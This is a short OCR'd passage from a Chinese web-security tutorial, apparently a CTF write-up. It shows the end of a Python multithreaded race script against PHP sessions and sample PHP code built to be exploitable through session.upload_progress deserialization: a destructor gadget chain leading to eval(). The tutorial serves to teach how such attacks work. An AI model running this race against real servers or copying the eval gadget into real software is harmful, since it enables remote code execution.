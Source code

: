 ```
        for i in range(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()

```

### 利用session.upload_progress进行反序列化攻击

> 
利用条件主要是存在session反序列化漏洞


```
示例代码

&lt;?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;
​
    function __construct() {
        $this-&gt;handle=new TimeNow();
    }
​
    function __destruct() {
        $this-&gt;handle-&gt;action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this-&gt;ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this-&gt;ip);
    }
}
?&gt;

```

> 
分析
